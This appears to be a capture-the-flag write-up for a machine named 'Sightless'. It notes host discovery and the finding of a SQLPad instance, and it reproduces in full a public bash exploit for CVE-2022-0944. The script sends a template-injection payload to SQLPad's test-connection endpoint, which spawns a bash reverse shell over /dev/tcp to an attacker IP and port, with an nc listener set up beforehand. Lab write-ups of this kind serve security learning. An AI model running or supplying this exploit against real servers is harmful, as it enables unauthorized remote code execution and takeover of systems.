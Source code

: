 ### Sightless
#### Initial Access
![[Pasted image 20241225215318.png]]
The URL couldnt be resolved since is unknown![[Pasted image 20241225215353.png]]
So I had to add it to /etc/hosts
Perfect, now we can access
![[Pasted image 20241225220128.png]]
The only thing that caught my attention is this SQLPad
![[Pasted image 20241225220113.png]]
After performing some dirsearch and subdomain fuzzing I did not found anything usefull
In the SQLPad tab I found that we can provide anew connection to a database, so I tried every driver and it seems that snowflake is active and running in the victim machine
![[Pasted image 20241225222426.png]]
It seems that this does not lead anywhere
Looking through the internet for what SQLPad is I found that it has vulnerabilities associated
![[Pasted image 20241225223148.png]]
![[Pasted image 20241225223227.png]]
So I found some exploits for this version
https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944
```bash
#!/bin/bash

# Inform the user to run netcat manually
echo "Please make sure to start a listener on your attacking machine using the command:"
echo "nc -lvnp 9001"
echo "Waiting for you to set up the listener..."

# Pause for confirmation from the user before continuing
read -p "Press [Enter] when you are ready..."

# Prompt the user for the target server and attacker's IP address
echo "Please provide the target host (e.g., x.x.com): "; read TARGET
echo "Please provide your IP address (e.g., 10.10.16.3): "; read REVERSE_IP

# Set reverse port for connection
REVERSE_PORT=9001

# Prepare the POST data with the payload injected in the 'host' and 'database' fields
POST_DATA=$(cat <<EOF
{
  "name": "divineclown",
  "driver": "mysql",
  "data": {
    "host": "",
    "database": "{{process.mainModule.require('child_process').exec('/bin/bash -c \"bash -i >& /dev/tcp/$REVERSE_IP/$REVERSE_PORT 0>&1\"')}}"
  },
  "host": "",
  "database": "{{process.mainModule.require('child_process').exec('/bin/bash -c \"bash -i >& /dev/tcp/$REVERSE_IP/$REVERSE_PORT 0>&1\"')}}"
}
EOF
)

# Perform the POST request using curl to trigger the payload on the target server
curl -i -s -k -X POST -H "Host: $TARGET" -H "Accept: application/json" -H "Content-Type: application/json" -H "Origin: http://$TARGET" -H "Referer: http://$TARGET/queries/new" -H "Connection: keep-alive" --data-binary "$POST_DATA" "http://$TARGET/api/test-connection" > /dev/null

```